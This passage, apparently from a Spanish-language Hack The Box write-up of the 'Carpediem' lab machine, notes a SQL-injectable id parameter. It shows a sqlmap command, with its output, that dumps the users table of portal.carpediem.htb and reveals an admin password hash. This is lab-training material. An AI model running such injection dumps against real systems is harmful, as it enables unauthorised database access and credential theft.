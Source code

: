 Lo añado también al ```/etc/hosts```

Tiene otro contenido

<img src="/writeups/assets/img/Carpediem-htb/2.png" alt="">

El parámetro ```?id``` es vulnerable a inyección SQL. En total hay 12 columnas. Esta vez utilizo ```SQLmap``` para agilizar

<img src="/writeups/assets/img/Carpediem-htb/3.png" alt="">

Obtengo un hash para el usuario ```admin```

```null
sqlmap --url 'http://portal.carpediem.htb/?p=view_bike&id=98f13708210194c475687be6106a3b84*' -D portal -T users -C username,password --dump --batch -v 0
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:22:53 /2023-02-12/

Database: portal                                                                                                                                                                                                
Table: users
[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | b723e511b084ab84b44235d82da572f3 |
+----------+----------------------------------+


[*] ending @ 10:23:07 /2023-02-12/
```